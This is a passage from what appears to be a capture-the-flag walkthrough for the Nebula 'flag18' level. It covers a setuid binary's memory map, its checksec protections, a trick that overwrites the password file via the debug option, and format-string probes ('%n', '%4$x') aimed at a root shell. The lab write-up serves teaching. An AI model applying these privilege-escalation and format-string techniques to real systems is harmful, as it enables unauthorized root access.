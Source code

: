 ```
00377000-00378000 rw-p 0001e000 07:00 44978      /lib/i386-linux-gnu/ld-2.13.so
00c9b000-00cb7000 r-xp 00000000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
00cb7000-00cb8000 r--p 0001b000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
00cb8000-00cb9000 rw-p 0001c000 07:00 45092      /lib/i386-linux-gnu/libgcc_s.so.1
00cd6000-00e4c000 r-xp 00000000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
00e4c000-00e4e000 r--p 00176000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
00e4e000-00e4f000 rw-p 00178000 07:00 44973      /lib/i386-linux-gnu/libc-2.13.so
00e4f000-00e52000 rw-p 00000000 00:00 0 
08048000-0804a000 r-xp 00000000 07:00 12922      /home/flag18/flag18
0804a000-0804b000 r--p 00001000 07:00 12922      /home/flag18/flag18
0804b000-0804c000 rw-p 00002000 07:00 12922      /home/flag18/flag18
082c5000-082e6000 rw-p 00000000 00:00 0          [heap]
b77a8000-b77a9000 rw-p 00000000 00:00 0 
b77b1000-b77b4000 rw-p 00000000 00:00 0 
bfabf000-bfae0000 rw-p 00000000 00:00 0          [stack]
Aborted
level18@nebula:/home/flag18$ 
```

I guess not.  It appears it's been compiled with a bit of protection:

```
level18@nebula:/home/flag18$ ./checksec.sh --file flag18
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   flag18
level18@nebula:/home/flag18$ 
```

On deeper inspection of the code, it appears there are several logic flaws that could allow simple execution of a root shell.

The first issue is that there's no restriction on what file we're debugging to, so long as we've got the privileges required to open it.  In this case, this means we can debug to the same file that we're checking passwords against.  Since we can't actually read the file, we need to infer:

```
level18@nebula:/home/flag18$ ./flag18 -d /home/flag18/password 
^Clevel18@nebula:/home/flag18$ ls -lh password
-rw------- 1 flag18 flag18 31 2013-03-20 00:38 password
level18@nebula:/home/flag18$ echo Starting up. Verbose level = 0 | wc -c
31
level18@nebula:/home/flag18$ 
```

So we read without error and we know the exact data in the file.  The problem with this is that it strips newlines, and with fgets we don't have a nice way of inserting them.  

The second issue I discovered involved the command site exec, which doesn't properly format output, and won't append newlines (which may be used to further the first issue).

```
level18@nebula:/home/flag18$ ./flag18 -d /tmp/dbg 
site exec %n
*** %n in writable segment detected ***
Aborted
level18@nebula:/home/flag18$ ./flag18 -d /tmp/dbg 
site exec %4$x
*** invalid %N$ use detected ***
Aborted
level18@nebula:/home/flag18$
```
